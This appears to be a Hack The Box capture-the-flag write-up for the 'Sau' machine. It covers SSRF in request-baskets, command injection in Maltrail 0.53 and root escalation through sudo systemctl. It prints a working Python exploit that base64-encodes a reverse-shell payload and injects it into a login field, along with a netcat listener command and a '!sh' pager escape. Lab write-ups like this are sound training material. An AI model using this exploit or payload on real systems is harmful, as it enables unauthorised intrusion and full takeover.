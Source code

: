 ```yaml
---
layout: post
title: SAU
categories: [Hack The Box, Easy]
tags: [SSRF, RCE]
image: https://i.ibb.co/0nnBwRb/sau.png
---
```


Hello and welcome to my first writeup on Hack the box machines. We will be handling an easy machine named Sau. We will use real vulnerabilities that were discovered before and we will also make use of exploits that had been used before. Let's begin.

# Enumaration

First of all we are going to run a NMAP scan to scan for open ports.

![1](https://i.ibb.co/bFPd1Sv/nmap.png) 

![2](https://i.ibb.co/Z23FwTJ/report.png)

From the scan we can see that port 22 is open on which ssh runs. But since we have no credentials we would not be able to use this. We can then see that the port 80 has been filtered which would mean we cannot communicate with it from outside the network. Then port 55555 would definately catch our attention. From the report we can see that the port is accessible on our browser and it allows for the get option.

We can access this by `http://machine_ip:55555` which will lead us to a page with request baskets.

# Request-baskets SSRF

When we visit the page this is what we can see

![3](https://i.ibb.co/CWbzyxx/55555.png) 

This is basically a page which creates request-baskets. What is interesting is we have a service and a version running. We can look this up and we see that we have a lurking vulnerability which is `Server Side Request Forgery`. This vulnerability exists due to some improper validation in a path and would ideally be leveraged to connect to any HTTP server on the network. 

To exploit this we need to create a basket and change some of the configurations on the basket.

![4](https://i.ibb.co/p43QH7R/configuration.png)

First we need to set an URL where the requests will be forwarded to. We can use localhost and set the port to port `80`.

Secondly we need to set `insecure_tls` to true which will ideally bypass the certificate verification.
Next, we need to set `proxy response` to true which will send response of the forwarded server back to our client.

Lastly, setting `expand_path` set to true makes forward_url path expanded when original http request contains compound path.

From here we only need to visit the URL so as to trigger this vulnerability.

# Exploiting Mailtrail

So when we visit the URL we can see a page that looks like this

![5](https://i.ibb.co/bKqqHK3/mailtrail.png)

We do not see much but we get a service running and its version. We can then look for the vulnerabilities associated with the service and version running.

We then can get a python exploit script which would exploit a command injection vulnerability. The exploit creates a reverse shell payload encoded in Base64 to bypass potential protections like WAF, IPS or IDS and delivers it to the target URL using a curl command
The payload is then executed on the target system, establishing a reverse shell connection back to the attacker's specified IP and port

The python script is as follows:
   
    #!/bin/python3

    import sys
    import os
    import base64

    # Arguments to be passed
    YOUR_IP = sys.argv[1]  # <your ip>
    YOUR_PORT = sys.argv[2]  # <your port>
    TARGET_URL = sys.argv[3]  # <target url>

    print("\n[+]Started MailTrail version 0.53 Exploit")

    # Fail-safe for arguments
    if len(sys.argv) != 4:
        print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
        sys.exit(-1)


    # Exploit the vulnerbility
    def exploit(my_ip, my_port, target_url):
    # Defining python3 reverse shell payload
        payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    # Encoding the payload with base64 encoding
        encoded_payload = base64.b64encode(payload.encode()).decode()
    # curl command that is to be executed on our system to exploit mailtrail
        command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    # Executing it
        os.system(command)


    print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
    try:
        exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
        print("\n[+] Successfully Exploited")
        print("\n[+] Check your Reverse Shell Listener")
    except:
        print("\n[!] An Error has occured. Try again!")


First we need to run a netcat listener on our machine, `nc -lnvp port`.

Next we need to execute the exploit example, `python3 exploit.py [ip] [port] [target_url]`.
From here we need to check at our listener for any connections. And we should be connected as a user.

![6](https://i.ibb.co/kD3nP6H/user.png)

# Privilege Escalation

Next we should try to escalate our privileges to root. Well we can run `sudo -l` which would help us to know what commands we can run as `sudo`.

![7](https://i.ibb.co/sv9GX12/privesc.png)

We see that we can run `systemctl status trail.sevice` as sudo. Then we can run `!sh` and press return.

![8](https://i.ibb.co/Fz1H9zr/root.png)

We are root. We can then find our flags.

# Conclusion 
HTB machines are awesome. Happy hacking 